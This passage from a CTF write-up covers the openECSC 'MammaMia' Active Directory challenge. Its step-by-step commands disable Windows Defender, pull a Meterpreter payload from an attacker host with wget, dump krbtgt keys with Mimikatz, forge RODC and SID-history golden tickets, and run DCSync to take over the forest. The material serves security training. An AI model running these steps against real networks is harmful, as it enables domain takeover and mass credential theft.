        print("Actual key length: ", len(contents))
        print("Expected key length: ", e.keysize)
        if len(contents) != e.keysize:
            raise ValueError('Wrong key length')
        self.enctype = enctype
        self.contents = contents
```

If we run it again, we can see that the expected key length is 32 bytes, but the actual key length is 76 bytes:

```bash
user@zero:~/MammaMia$ proxychains getST.py 'factories.mammamia.local/silvia.galli' -k -no-pass -spn cifs/mgmtdc.factories.mammamia.local -dc-ip 10.50.0.10 -debug
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.16
Impacket v0.11.0 - Copyright 2023 Fortra

[+] Impacket Library Installation Path: /home/user/.local/lib/python3.10/site-packages/impacket
[+] Using Kerberos Cache: ticket.ccache
[+] Returning cached credential for KRBTGT/FACTORIES.MAMMAMIA.LOCAL@FACTORIES.MAMMAMIA.LOCAL
[+] Using TGT from cache
Actual key length:  76
Expected key length:  32
Traceback (most recent call last):
  File "/home/user/.local/bin/getST.py", line 737, in <module>
    executer.run()
  File "/home/user/.local/bin/getST.py", line 623, in run
    domain, _, TGT, _ = CCache.parseFile(self.__domain)
  File "/home/user/.local/lib/python3.10/site-packages/impacket/krb5/ccache.py", line 630, in parseFile
    TGT = creds.toTGT()
  File "/home/user/.local/lib/python3.10/site-packages/impacket/krb5/ccache.py", line 320, in toTGT
    tgt['sessionKey'] = crypto.Key(cipher.enctype, self['key']['keyvalue'])
  File "/home/user/.local/lib/python3.10/site-packages/impacket/krb5/crypto.py", line 659, in __init__
    raise ValueError('Wrong key length')
ValueError: Wrong key length
Wrong key length
```

So something strange is going on. Instead of doing a bunch of research and debugging, we should instead go back to basics. We know that Silvia has a logon session and that Remote Credential Guard makes sure authentication requests are sent back to the user's machine.

How about we just migrate our Meterpreter session to Silvia's session and try to obtain a new service ticket from there? First, let's quick disable Windows Defender, as it will kill the payload. In a real-world Red Team scenario, you will probably have spent a lot of time developing custom payloads and malware for these kinds of scenarios - but this is a CTF, so let's keep it simple:

```powershell
C:\Windows\Temp\attacker>powershell -c Set-MpPreference -DisableRealtimeMonitoring $true
```

Simple as that. Let's now find a process belonging to Silvia and migrate to it:

```powershell
meterpreter > ps

Process List
============

 PID   PPID  Name                        Arch  Session  User                               Path
 ---   ----  ----                        ----  -------  ----                               ----
 0     0     [System Process]
 4     0     System                      x64   0
 [...]
 4748  3636  powershell.exe              x64   2        FACTORIES\silvia.galli             C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe
 [...]

meterpreter > migrate 4748
[*] Migrating from 1028 to 4748...
[*] Migration completed successfully.
meterpreter > getuid
Server username: FACTORIES\silvia.galli
```

Excellent. As we know, Silvia is a local administrator on the `FACTRODC` computer, so we can use the built-in `Invoke-Command` to (behind the scenes) request a service ticket for the WinRM service on the `FACTRODC` computer, and we can then dump it using Rubeus:

```powershell
meterpreter > shell
Process 7464 created.
Channel 1 created.
Microsoft Windows [Version 10.0.20348.2402]
(c) Microsoft Corporation. All rights reserved.

C:\Users\silvia.galli.FACTORIES>cd C:\Windows\Temp\attacker
C:\Windows\Temp\attacker>klist # before

Current LogonId is 0:0x6087c

Cached Tickets: (2)

#0> Client: silvia.galli @ FACTORIES.MAMMAMIA.LOCAL
 Server: krbtgt/FACTORIES.MAMMAMIA.LOCAL @ FACTORIES.MAMMAMIA.LOCAL
 KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
 Ticket Flags 0x40e10000 -> forwardable renewable initial pre_authent name_canonicalize 
 Start Time: 5/18/2024 0:31:37 (local)
 End Time:   5/18/2024 10:31:37 (local)
 Renew Time: 5/25/2024 0:31:37 (local)
 Session Key Type: AES-256-CTS-HMAC-SHA1-96
 TGT issued by branch: 48
 Cache Flags: 0x1 -> PRIMARY 
 Kdc Called: 

#1> Client: silvia.galli @ FACTORIES.MAMMAMIA.LOCAL
 Server: LDAP/factrodc.factories.mammamia.local/factories.mammamia.local @ FACTORIES.MAMMAMIA.LOCAL
 KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
 Ticket Flags 0x40a10000 -> forwardable renewable pre_authent name_canonicalize 
 Start Time: 5/18/2024 0:31:54 (local)
 End Time:   5/18/2024 10:31:37 (local)
 Renew Time: 5/25/2024 0:31:37 (local)
 Session Key Type: AES-256-CTS-HMAC-SHA1-96
 Cache Flags: 0 
 Kdc Called: factrodc.factories.mammamia.local

C:\Windows\Temp\attacker>powershell -c Invoke-Command -ComputerName factrodc.factories.mammamia.local -ScriptBlock { whoami } # Simple WinRM command
factories\silvia.galli

C:\Windows\Temp\attacker>klist # after

Current LogonId is 0:0x6087c

Cached Tickets: (3)

#0> Client: silvia.galli @ FACTORIES.MAMMAMIA.LOCAL
 Server: krbtgt/FACTORIES.MAMMAMIA.LOCAL @ FACTORIES.MAMMAMIA.LOCAL
 KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
 Ticket Flags 0x40e10000 -> forwardable renewable initial pre_authent name_canonicalize 
 Start Time: 5/18/2024 0:31:37 (local)
 End Time:   5/18/2024 10:31:37 (local)
 Renew Time: 5/25/2024 0:31:37 (local)
 Session Key Type: AES-256-CTS-HMAC-SHA1-96
 TGT issued by branch: 48
 Cache Flags: 0x1 -> PRIMARY 
 Kdc Called: 

#1> Client: silvia.galli @ FACTORIES.MAMMAMIA.LOCAL
 Server: HTTP/factrodc.factories.mammamia.local @ FACTORIES.MAMMAMIA.LOCAL
 KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
 Ticket Flags 0x40a10000 -> forwardable renewable pre_authent name_canonicalize 
 Start Time: 5/18/2024 0:33:11 (local)
 End Time:   5/18/2024 10:31:37 (local)
 Renew Time: 5/25/2024 0:31:37 (local)
 Session Key Type: AES-256-CTS-HMAC-SHA1-96
 Cache Flags: 0 
 Kdc Called: factrodc.factories.mammamia.local

#2> Client: silvia.galli @ FACTORIES.MAMMAMIA.LOCAL
 Server: LDAP/factrodc.factories.mammamia.local/factories.mammamia.local @ FACTORIES.MAMMAMIA.LOCAL
 KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
 Ticket Flags 0x40a10000 -> forwardable renewable pre_authent name_canonicalize 
 Start Time: 5/18/2024 0:31:54 (local)
 End Time:   5/18/2024 10:31:37 (local)
 Renew Time: 5/25/2024 0:31:37 (local)
 Session Key Type: AES-256-CTS-HMAC-SHA1-96
 Cache Flags: 0 
 Kdc Called: factrodc.factories.mammamia.local

C:\Windows\Temp\attacker>.\rubeus.exe dump /luid:0x6087c /service:http /nowrap

   ______        _                      
  (_____ \      | |                     
   _____) )_   _| |__  _____ _   _  ___ 
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.3.2 


Action: Dump Kerberos Ticket Data (All Users)

[*] Target service  : http
[*] Target LUID     : 0x6087c
[*] Current LUID    : 0x6087c

  UserName                 : silvia.galli
  Domain                   : FACTORIES
  LogonId                  : 0x6087c
  UserSID                  : S-1-5-21-3201321165-582068547-786307507-1116
  AuthenticationPackage    : Kerberos
  LogonType                : RemoteInteractive
  LogonTime                : 5/18/2024 12:31:54 AM
  LogonServer              : factrodc
  LogonServerDNSDomain     : FACTORIES.MAMMAMIA.LOCAL
  UserPrincipalName        : silvia.galli@factories.mammamia.local


    ServiceName              :  HTTP/factrodc.factories.mammamia.local
    ServiceRealm             :  FACTORIES.MAMMAMIA.LOCAL
    UserName                 :  silvia.galli (NT_PRINCIPAL)
    UserRealm                :  FACTORIES.MAMMAMIA.LOCAL
    StartTime                :  5/18/2024 12:33:11 AM
    EndTime                  :  5/18/2024 10:31:37 AM
    RenewTill                :  5/25/2024 12:31:37 AM
    Flags                    :  name_canonicalize, pre_authent, renewable, forwardable
    KeyType                  :  aes256_cts_hmac_sha1
    Base64(key)              :  vbC9jNTUIK9rnA8bx4Tmbpo95SfVsPiK7dl+oUc2V64=
    Base64EncodedTicket   :

      doIG2DCCBtSgAwIB[...]
```

Now, as we know from earlier, depending on our way of connecting with WinRM, all the methods expect a different SPN. I will be using PowerShell on Linux, which in this case will expect `http/factrodc` instead of `HTTP/factrodc.factories.mammamia.local`. We can use Rubeus to substitute the SPN in the ticket:

```bash
C:\Windows\Temp\attacker>.\rubeus.exe tgssub /ticket:doIG2DCCBtSg[...] /altservice:http/factrodc /nowrap
   ______        _                      
  (_____ \      | |                     
   _____) )_   _| |__  _____ _   _  ___ 
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.3.2 


[*] Action: Service Ticket sname Substitution

[*] Substituting in alternate service name: http/factrodc

  ServiceName              :  http/factrodc
  ServiceRealm             :  FACTORIES.MAMMAMIA.LOCAL
  UserName                 :  silvia.galli (NT_PRINCIPAL)
  UserRealm                :  FACTORIES.MAMMAMIA.LOCAL
  StartTime                :  5/18/2024 12:33:11 AM
  EndTime                  :  5/18/2024 10:31:37 AM
  RenewTill                :  5/25/2024 12:31:37 AM
  Flags                    :  name_canonicalize, pre_authent, renewable, forwardable
  KeyType                  :  aes256_cts_hmac_sha1
  Base64(key)              :  vbC9jNTUIK9rnA8bx4Tmbpo95SfVsPiK7dl+oUc2V64=
  Base64EncodedTicket   :

    doIGoDCCBpy[...]
```

With the ticket, we can now do some cleanup. We execute a new `msf.exe`, exit the old migrated sessions, and reenable Windows Defender, as this is a shared environment with other players:

```powershell
meterpreter > execute -f "C:\Windows\Temp\attacker\msf.exe"
Process 6556 created.
meterpreter >
[*] Meterpreter session 2 opened (13.37.13.37:4444 -> 13.37.0.1:63901) at 2024-05-18 02:13:30 +0200
meterpreter > exit
[*] Shutting down session: 1

[*] 13.37.0.1 - Meterpreter session 1 closed.  Reason: Died
msf6 auxiliary(server/socks_proxy) > sessions -i 2
[*] Starting interaction with 2...

meterpreter > ps

Process List
============

 PID   PPID  Name                        Arch  Session  User                               Path
 ---   ----  ----                        ----  -------  ----                               ----
 0     0     [System Process]
 4     0     System                      x64   0
 [...]
 4748  3636  powershell.exe              x64   2        FACTORIES\silvia.galli             C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe # process is still alive and running
 [...]

meterpreter > shell
Process 4908 created.
Channel 1 created.
Microsoft Windows [Version 10.0.20348.2402]
(c) Microsoft Corporation. All rights reserved.

C:\Users\silvia.galli.FACTORIES>whoami
factories\silvia.galli
C:\Users\silvia.galli.FACTORIES>powershell -c Set-MpPreference -DisableRealtimeMonitoring $false
meterpreter > ps

Process List
============

 PID   PPID  Name                        Arch  Session  User                               Path
 ---   ----  ----                        ----  -------  ----                               ----
 0     0     [System Process]
 4     0     System                      x64   0
 4748  3636  powershell.exe              x64   2        FACTORIES\silvia.galli             C:\Windows\System32\WindowsPowerShell\v1.0\powershell.exe # process is still alive and running
 [...]
```

We can now use the new ticket to get a WinRM session on the `FACTRODC` computer:

```bash
user@zero:~/MammaMia$ echo doIGoDCCBpygAwI[...] | base64 -d > ticket.kirbi
user@zero:~/MammaMia$ ticketConverter.py ticket.kirbi ticket.ccache
Impacket v0.11.0 - Copyright 2023 Fortra

[*] converting kirbi to ccache...
[+] done
user@zero:~/MammaMia$ export KRB5CCNAME=ticket.ccache 
user@zero:~/MammaMia$ proxychains -q pwsh
PowerShell 7.4.1

PS /home/user/MammaMia> $SessionOpt = New-PSSessionOption -SkipCACheck:$true -SkipCNCheck:$true                            
PS /home/user/MammaMia> Enter-PSSession -UseSSL -SessionOption $SessionOpt -ComputerName factrodc.factories.mammamia.local 
[factrodc.factories.mammamia.local]: PS C:\Users\silvia.galli.FACTORIES\Documents> whoami                                         
factories\silvia.galli
```

> Note: In my case, I had to disable "proxy_dns" in my `proxychains.conf` file to get the WinRM session to work, as PowerShell was looking for a ticket with the hostname `224.0.0.0`. Remember to modify your `/etc/hosts` file to point the hostname to the correct IP address.

With the shell, we can now perform the same steps to get a Meterpreter session on `FACTRODC`.

```powershell
[factrodc.factories.mammamia.local]: PS C:\Users\silvia.galli.FACTORIES\Documents> mkdir C:\Windows\Temp\attacker
[factrodc.factories.mammamia.local]: PS C:\Users\silvia.galli.FACTORIES\Documents> Add-MpPreference -ExclusionPath C:\Windows\Temp\attacker
[factrodc.factories.mammamia.local]: PS C:\Users\silvia.galli.FACTORIES\Documents> cd C:\Windows\temp\attacker
[factrodc.factories.mammamia.local]: PS C:\Windows\temp\attacker> wget http://13.37.13.37:1234/msf.exe -o msf.exe
[factrodc.factories.mammamia.local]: PS C:\Windows\temp\attacker> .\msf.exe
```

### Partial Golden Tickets

We should now have an administrative shell on the `FACTRODC` computer. I definitely recommend reading the aforementioned blog posts on attacking RODCs before continuing, but if you just want to see the solution, you can keep reading.

As mentioned earlier, the `TimeSheetSvc` user does not have its credentials cached on the RODC, so we cannot extract them from LSA. However, we can retrieve the credentials ourselves using the [Kerberos Key List attack](https://www.secureauth.com/blog/the-kerberos-key-list-attack-the-return-of-the-read-only-domain-controllers/). **But**, both Rubeus' `asktgs /keyList` and Impacket's `keylistattack.py` will only extract the NT hash, which we know is useless in this environment. We don't need the credentials themselves however, a TGT is enough, so let's forge a partial Golden Ticket.

The first step is to dump the AES key of the `krbtgt_48` account, as this key can be used to forge partial TGTs. We will shortly disable Windows Defender and use Mimikatz to dump the key:

```powershell
C:\Windows\temp\attacker>powershell -c Set-MpPreference -DisableRealtimeMonitoring $true
C:\Windows\temp\attacker>.\mimikatz.exe "privilege::debug" "lsadump::lsa /inject /name:krbtgt_48" "exit"

  .#####.   mimikatz 2.2.0 (x64) #19041 Sep 19 2022 17:44:08
 .## ^ ##.  "A La Vie, A L'Amour" - (oe.eo)
 ## / \ ##  /*** Benjamin DELPY `gentilkiwi` ( benjamin@gentilkiwi.com )
 ## \ / ##       > https://blog.gentilkiwi.com/mimikatz
 '## v ##'       Vincent LE TOUX             ( vincent.letoux@gmail.com )
  '#####'        > https://pingcastle.com / https://mysmartlogon.com ***/

mimikatz(commandline) # privilege::debug
Privilege '20' OK

mimikatz(commandline) # lsadump::lsa /inject /name:krbtgt_48
Domain : FACTORIES / S-1-5-21-3201321165-582068547-786307507

RID  : 00000461 (1121)
User : krbtgt_48

 * Primary
    NTLM : 04498d6b5e97ead9cd9246c687b3ef9d
    LM   : 
  Hash NTLM: 04498d6b5e97ead9cd9246c687b3ef9d
    ntlm- 0: 04498d6b5e97ead9cd9246c687b3ef9d
    lm  - 0: 63dce26f40e25a29e63706ebaf569678

 [...]

 * Kerberos-Newer-Keys
    Default Salt : FACTORIES.MAMMAMIA.LOCALkrbtgt_48
    Default Iterations : 4096
    Credentials
      aes256_hmac       (4096) : a600728f59c515ee19f8b8a12206144ffd3f9f9bd75144c28808b95bd12a7f21
      aes128_hmac       (4096) : 7b030bfbf2652b689f037fa8f0b1e9a3
      des_cbc_md5       (4096) : a8572a313b2334ba

 * NTLM-Strong-NTOWF
    Random Value : 93b4ea312500556320760c11da524171

mimikatz(commandline) # exit
Bye!

C:\Windows\temp\attacker>powershell -c Set-MpPreference -DisableRealtimeMonitoring $false
```

We now have the AES key of the `krbtgt_48` account: `a600728f59c515ee19f8b8a12206144ffd3f9f9bd75144c28808b95bd12a7f21`. We can use this along with Rubeus to forge a partial TGT for the user `TimeSheetSvc`:

```bash
C:\Windows\temp\attacker>.\rubeus.exe golden /rodcNumber:48 /aes256:a600728f59c515ee19f8b8a12206144ffd3f9f9bd75144c28808b95bd12a7f21 /user:TimeSheetSvc /id:1117 /domain:factories.mammamia.local /sid:S-1-5-21-3201321165-582068547-786307507 /nowrap

   ______        _                      
  (_____ \      | |                     
   _____) )_   _| |__  _____ _   _  ___ 
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.3.2 

[*] Action: Build TGT

[*] Building PAC

[*] Domain         : FACTORIES.MAMMAMIA.LOCAL (FACTORIES)
[*] SID            : S-1-5-21-3201321165-582068547-786307507
[*] UserId         : 1117
[*] Groups         : 520,512,513,519,518
[*] ServiceKey     : A600728F59C515EE19F8B8A12206144FFD3F9F9BD75144C28808B95BD12A7F21
[*] ServiceKeyType : KERB_CHECKSUM_HMAC_SHA1_96_AES256
[*] KDCKey         : A600728F59C515EE19F8B8A12206144FFD3F9F9BD75144C28808B95BD12A7F21
[*] KDCKeyType     : KERB_CHECKSUM_HMAC_SHA1_96_AES256
[*] Service        : krbtgt
[*] Target         : factories.mammamia.local

[*] Generating EncTicketPart
[*] Signing PAC
[*] Encrypting EncTicketPart
[*] Generating Ticket
[*] Generated KERB-CRED
[*] Forged a TGT for 'TimeSheetSvc@factories.mammamia.local'

[*] AuthTime       : 5/18/2024 1:01:54 AM
[*] StartTime      : 5/18/2024 1:01:54 AM
[*] EndTime        : 5/18/2024 11:01:54 AM
[*] RenewTill      : 5/25/2024 1:01:54 AM

[*] base64(ticket.kirbi):

      doIGEDCCBgygAwIBBaE[...]
```

We know have a partial TGT for the `TimeSheetSvc` user. We can attempt to upgrade it to a full TGT, as shown below:

```bash
C:\Windows\temp\attacker>.\rubeus.exe asktgs /service:krbtgt/factories.mammamia.local /dc:mgmtdc.factories.mammamia.local /ticket:doIGEDCCBgygAwIBBaED[...] /nowrap

   ______        _                      
  (_____ \      | |                     
   _____) )_   _| |__  _____ _   _  ___ 
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.3.2 

[*] Action: Ask TGS

[*] Requesting default etypes (RC4_HMAC, AES[128/256]_CTS_HMAC_SHA1) for the service ticket
[*] Building TGS-REQ request for: 'krbtgt/factories.mammamia.local'
[*] Using domain controller: mgmtdc.factories.mammamia.local (10.50.0.10)
[+] TGS request successful!
[*] base64(ticket.kirbi):

      doIGJjCCBiKgAwIBBaEDAgEWooIE/zCCBPthggT3MIIE86AD[...]

  ServiceName              :  krbtgt/factories.mammamia.local
  ServiceRealm             :  FACTORIES.MAMMAMIA.LOCAL
  UserName                 :  TimeSheetSvc (NT_PRINCIPAL)
  UserRealm                :  FACTORIES.MAMMAMIA.LOCAL
  StartTime                :  5/18/2024 1:03:21 AM
  EndTime                  :  5/18/2024 11:01:54 AM
  RenewTill                :  5/25/2024 1:01:54 AM
  Flags                    :  name_canonicalize, pre_authent, renewable, forwardable
  KeyType                  :  aes256_cts_hmac_sha1
  Base64(key)              :  rFKCkZCgOwDSNPJsOuoV5SqdE7IpfxnqxvHWIb+xD+8=

```

### Constrained Delegation Attack

With a TGT for `TimeSheetSvc`, we can now attempt to perform a constrained delegation attack. Rubeus seems to throw an overflow error when performing this attack, so I'll be using `getST.py` script from Impacket.

```bash
user@zero:~/MammaMia$ echo doIGJjCCBiKgA[...] | base64 -d > timesheet_ticket.kirbi
user@zero:~/MammaMia$ ticketConverter.py ./timesheet_ticket.kirbi timesheet_ticket.ccache
Impacket v0.11.0 - Copyright 2023 Fortra

[*] converting kirbi to ccache...
[+] done
user@zero:~/MammaMia$ export KRB5CCNAME=timesheet_ticket.ccache
user@zero:~/MammaMia$ proxychains python3 getST.py 'factories.mammamia.local/TimeSheetSvc' -k -no-pass -spn cifs/mgmtdc.factories.mammamia.local -impersonate amministratore -dc-ip 10.50.0.10
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.16
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Impersonating amministratore
[*] Requesting S4U2self
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  10.50.0.10:88  ...  OK
[*] Requesting S4U2Proxy
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  10.50.0.10:88  ...  OK
[*] Saving ticket in amministratore@cifs_mgmtdc.factories.mammamia.local@FACTORIES.MAMMAMIA.LOCAL.ccache
user@zero:~/MammaMia$ 
```

### Domain Takeover

With the `cifs/mgmtdc` ticket for `amministratore`, we can now perform a DCSync attack to dump the credentials of all the accounts in the `factories.mammamia.local` domain:

```bash
user@zero:~/MammaMia$ export KRB5CCNAME=amministratore@cifs_mgmtdc.factories.mammamia.local@FACTORIES.MAMMAMIA.LOCAL.ccache
user@zero:~/MammaMia$ proxychains secretsdump.py 'factories.mammamia.local/amministratore@mgmtdc.factories.mammamia.local' -dc-ip 10.50.0.10 -target-ip 10.50.0.10 -just-dc -k -no-pass
[proxychains] config file found: /etc/proxychains4.conf
[proxychains] preloading /usr/lib/x86_64-linux-gnu/libproxychains.so.4
[proxychains] DLL init: proxychains-ng 4.16
Impacket v0.11.0 - Copyright 2023 Fortra

[proxychains] Strict chain  ...  127.0.0.1:1080  ...  10.50.0.10:445  ...  OK
[*] Dumping Domain Credentials (domain\uid:rid:lmhash:nthash)
[*] Using the DRSUAPI method to get NTDS.DIT secrets
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  10.50.0.10:135  ...  OK
[proxychains] Strict chain  ...  127.0.0.1:1080  ...  10.50.0.10:49668  ...  OK
Amministratore:500:aad3b435b51404eeaad3b435b51404ee:c8d2e4305f55974fc4e243f582f7439f:::
[...]
[*] Kerberos keys grabbed
Amministratore:aes256-cts-hmac-sha1-96:f1f385b726c346765dc90a407039d0469b3b73a00b100ba693ea5d9addd74051
Amministratore:aes128-cts-hmac-sha1-96:e2911e51729170f3c1b2d2a868c9efb0
Amministratore:des-cbc-md5:92f7894a5880b50b
krbtgt:aes256-cts-hmac-sha1-96:09adb638c673d237eacdf1087a28b22c193553efbb119cf807c89e53cbb257ec
krbtgt:aes128-cts-hmac-sha1-96:9d459cacf43c77f0f009d433bc1397d8
[*] Cleaning up... 
```

### Forest Takeover

And finally, we can perform a SID History Injection attack to forge a TGT for the `Amministratore` user and inject the `Enterprise Admins` SID into the ticket. We will use the AES key of the `krbtgt` account. We're only lacking one information, which is the domain SID for the parent domain `MAMMAMIA.LOCAL`. We can get this information using the `nltest` command:

```powershell
C:\Windows\temp\attacker>nltest /domain_trusts /v
nltest /domain_trusts /v
List of domain trusts:
    0: MAMMAMIA mammamia.local (NT 5) (Forest Tree Root) (Direct Outbound) (Direct Inbound) ( Attr: withinforest )
       Dom Guid: 367f993a-4a3f-4738-80e2-62e24cebb8a0
       Dom Sid: S-1-5-21-3304687093-634114622-3569869145
    1: FACTORIES factories.mammamia.local (NT 5) (Forest: 0) (Primary Domain) (Native)
       Dom Guid: c2bb2c1a-29bf-4f0d-be03-bad167939978
       Dom Sid: S-1-5-21-3201321165-582068547-786307507
The command completed successfully
```

We now have all the information to forge a Golden Ticket with SID History Injection:

```bash
user@zero:~/MammaMia$ ticketer.py -domain factories.mammamia.local -aesKey 09adb638c673d237eacdf1087a28b22c193553efbb119cf807c89e53cbb257ec -domain-sid S-1-5-21-3201321165-582068547-786307507 -extra-sid S-1-5-21-3304687093-634114622-3569869145-519 -user-id 500 amministratore
Impacket v0.11.0 - Copyright 2023 Fortra

[*] Creating basic skeleton ticket and PAC Infos
[*] Customizing ticket for factories.mammamia.local/amministratore
[*]  PAC_LOGON_INFO
[*]  PAC_CLIENT_INFO_TYPE
[*]  EncTicketPart
[*]  EncAsRepPart
[*] Signing/Encrypting final ticket
[*]  PAC_SERVER_CHECKSUM
[*]  PAC_PRIVSVR_CHECKSUM
[*]  EncTicketPart
[*]  EncASRepPart
[*] Saving ticket in amministratore.ccache
```

From here, we can either inject the TGT into our logon session, or we can proxy everything from Linux. For simplicity, since we already have everything running, and to protect the ticket from other participants, I'll be using the Linux proxy method. Now is also a good time to update the `/etc/krb5.conf` file with the new domain information:

```ini
[libdefaults]
default_realm = MAMMAMIA.LOCAL
kdc_timesync = 1
ccache_type = 4
forwardable = true
proxiable = true
fcc-mit-ticketflags = true

[realms]
MAMMAMIA.LOCAL = {
  kdc = 10.10.0.10
}

FACTORIES.MAMMAMIA.LOCAL = {
  kdc = 10.50.0.10
}

[domain_realm]
.mammamia.local = MAMMAMIA.LOCAL
.factories.mammamia.local = FACTORIES.MAMMAMIA.LOCAL
```

> Remember to update the routing in Metasploit to route through `factrodc`.

We can now use the ticket to get a shell on the `HQDC` computer and grab the flag:

```bash
user@zero:~/MammaMia$ export KRB5CCNAME=amministratore.ccache
user@zero:~/MammaMia$ proxychains -q pwsh
PS /home/user/MammaMia> $SessionOpt = New-PSSessionOption -SkipCACheck:$true -SkipCNCheck:$true
PS /home/user/MammaMia> Enter-PSSession -UseSSL -SessionOption $SessionOpt -ComputerName hqdc.mammamia.local
[hqdc.mammamia.local]: PS C:\Users\amministratore.FACTORIES.MAMMAMIA.LOCAL\Documents> whoami                                         
factories.mammamia.local\amministratore
[hqdc.mammamia.local]: PS C:\Users\amministratore.FACTORIES.MAMMAMIA.LOCAL\Documents> hostname              
hqdc
[hqdc.mammamia.local]: PS C:\Users\amministratore.FACTORIES.MAMMAMIA.LOCAL\Documents> cd C:\Users\amministratore\desktop
[hqdc.mammamia.local]: PS C:\Users\amministratore\desktop> ls


    Directory: C:\Users\amministratore\desktop


Mode                 LastWriteTime         Length Name                                                                                                                                                                                                                                   
----                 -------------         ------ ----                                                                                                                                                                                                                                   
-ar---         5/18/2024   1:45 AM             80 flag.txt                                                                                                                                                                                                                               


[hqdc.mammamia.local]: PS C:\Users\amministratore\desktop> cat flag.txt                      
openECSC{even_the_hound_of_hades_could_not_safeguard_the_secret_recipe_81a815b0}
```

## Conclusion

And that's it! We have successfully compromised the entire forest.

My goal for this challenge was to let pentesters showcase their skills and knowledge in a hardened Active Directory environment. My intention was to create a tough challenge without including any red herrings, guessing or brute forcing. I tried to provide enough starting information as possible, like a network diagram and GPOs, and to include only vulnerabilities, attacks, and techniques that could be addressed through enumeration and knowledge obtainable during the CTF. I hope you liked this approach.

I had a lot of fun creating and solving this challenge myself. I hope you enjoyed the challenge and writeup, and that you learned something new.

If you have any questions or feedback, feel free to reach out to me on X/Twitter ([@ly4k_](https://twitter.com/ly4k_)) or Discord.
